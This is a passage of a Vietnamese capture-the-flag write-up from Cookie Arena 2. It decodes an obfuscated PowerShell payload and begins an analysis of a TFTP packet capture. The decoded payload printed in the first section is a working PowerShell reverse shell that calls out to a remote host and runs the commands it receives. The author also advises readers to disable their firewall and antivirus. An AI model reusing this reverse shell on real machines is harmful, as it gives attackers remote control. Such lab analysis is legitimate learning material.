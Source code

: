 😄 Đến đây hơi khó khăn nhưng dựa vào các từ khóa thì mình đã tìm ra cách decode tại bài viết này: [Decode payload powershell](https://github.com/jas502n/Powshell-decode-payload)

Hãy tắt hết tường lửa , phần mềm diệt virus để không có lỗi đỏ nhé.
Tách lấy phần base64 và Chạy lệnh sau trong powershell:
```
PS C:\Windows\system32> sal a New-Object;(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()
```

Kết quả:
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27",4953);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "CHH{N0_4_go_n0_st4r_wh3r3}" + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag: `CHH{N0_4_go_n0_st4r_wh3r3}`   😙 Quá đã 🌶️


## Trivial FTP
### Mô tả
```
Việc những nhân viên của một công ty X sử dụng các giao thức không an toàn để kết nối và truyền tải tập tin từ xa đã tạo cơ hội cho những kẻ tấn công Man in the Middle và đánh cắp dữ liệu quan trọng của công ty

Tải Challenge: https://drive.google.com/file/d/1AqsNR8eKe527iZJf1koNRs1pl9YhK0Ev/view?usp=drive_link (pass: cookiehanhoan)

Format FLAG: CHH{XXX}
```
Nếu bạn không tìm thấy file trong drive nữa thì có thể tìm thấy [tại đây](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/Cookie%20Arena%202/source/arenas2-forensics-trivialFTP.zip)

### Phân tích
Mình được cung cấp một file `TrivialFTP.pcapng`. 
Mở bằng Wireshark xem có gì không. Ặc 😥 file lớn vậy

Đề bài gợi ý là giao thức FTP nên mình có xem trong packet này thì thấy fiel flag.pdf đồng thời mình cũng thấy Tranfer type được sử dụng ở đây là netascii.

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/9c688ad4-85ce-43d3-9448-45b004a22552)

Sau một lúc bí bách mình sử dụng tool và extract ra được một file `flag.pdf version 1.5` NHưng không mở lên được 🥲
